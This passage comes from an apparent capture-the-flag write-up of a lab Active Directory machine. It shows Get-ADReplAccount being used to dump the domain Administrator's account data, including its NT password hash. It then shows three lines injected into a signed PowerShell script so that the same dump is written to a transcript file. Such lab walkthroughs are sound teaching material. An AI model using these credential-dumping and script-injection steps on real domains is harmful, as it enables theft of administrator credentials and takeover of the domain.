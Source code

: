     PS C:\Get-bADpasswords> Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
                                                        
    DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
    Sid: S-1-5-21-3783586571-2109290616-3725730865-500
    Guid: 526eb447-7a40-4fe9-b95a-f68e9d78efa1     
    SamAccountName: Administrator                  
    SamAccountType: User                           
    UserPrincipalName:                             
    PrimaryGroupId: 513                            
    SidHistory:                                    
    Enabled: True                                  
    UserAccountControl: NormalAccount, PasswordNeverExpires
    AdminCount: True
    Deleted: False                                 
    LastLogonDate: 11/5/2022 12:41:33 PM           
    DisplayName:                                   
    GivenName:                                     
    Surname:                                       
    Description: Built-in account for administering the computer/domain
    ServicePrincipalName:                          
    SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, 
    SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
    Owner: S-1-5-21-3783586571-2109290616-3725730865-512                           
    Secrets                                        
      NTHash: b3ff8d7532eef396a5347ed33933030f
      LMHash:                                      
      NTHashHistory:          
        Hash 01: b3ff8d7532eef396a5347ed33933030f
    ...[snip]...
    

There’s the NTHash, b3ff8d7532eef396a5347ed33933030f.

#### Via Injection

If I couldn’t get a shell for some reason, I could still do this via the
script injection. I’ll add the following three lines to the start of my local
copy of `Get-bADpasswords.ps1`:

    
    
    Start-Transcript -Path 'C:\Programdata\0xdf-transcript.txt'
    Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
    Stop-Transcript
    

This is starting a transcript in the location of my choosing, and then running
the same command.

I’ll upload, copy into place, sign, and trigger. `C:\programdata\0xdf-
transcript.txt` exists:

    
    
    PS C:\programdata> ls 0xdf-transcript.txt
    